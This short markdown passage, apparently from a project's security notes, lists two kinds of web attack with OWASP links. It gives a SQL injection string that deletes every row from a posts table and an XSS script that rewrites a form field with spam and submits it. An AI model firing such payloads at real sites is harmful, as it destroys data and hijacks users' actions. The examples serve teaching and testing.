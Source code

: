 ### Kinds of attacks
- https://www.owasp.org/index.php/SQL_Injection
  ```
    '); delete from posts; --
  ```
- https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
  ```
    <script>
  setTimeout(function() {
      var tt = document.getElementById('content');
      tt.value = "<h2 style='color: #FF6699; font-family: Comic Sans MS'>Spam, spam, spam, spam,<br>Wonderful spam, glorious  spam!</h2>";
      tt.form.submit();
  }, 2500);
  </script>
```
